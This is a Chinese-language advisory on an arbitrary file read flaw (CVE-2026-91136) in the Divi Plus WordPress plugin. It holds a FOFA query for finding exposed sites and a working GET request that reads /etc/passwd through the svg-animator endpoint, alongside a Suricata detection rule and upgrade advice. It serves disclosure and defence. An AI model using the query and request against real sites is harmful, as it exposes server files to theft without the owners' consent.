

# WP-DiviPlus-CVE-2026-91136-文件读取

WP-DiviPlus-CVE-2026-91136-文件读取

# 影响版本

Divi Plus <= 2.4.0

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa: body=&quot;/wp-content/plugins/divi-plus/&quot;**

**POC/EXP：**

**step1** 文件读取

```
GET /wp-json/elicus/v1/dipl-modules/svg-animator?svg_image=/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"WP-DiviPlus - CVE-2026-91136 svg-animator svg_image 文件读取漏洞";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/wp-json/elicus/v1/dipl-modules/svg-animator"; fast_pattern;
        content:"svg_image="; nocase; distance:0;
        content:"/etc/passwd"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "WordPress Plugin DiviPlus",
        vulnerability_type "Arbitrary File Read (Local File Inclusion)",
        severity "high",
        reference "CVE-2026-91136";
    classtype:web-application-attack;
    sid:1000799;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
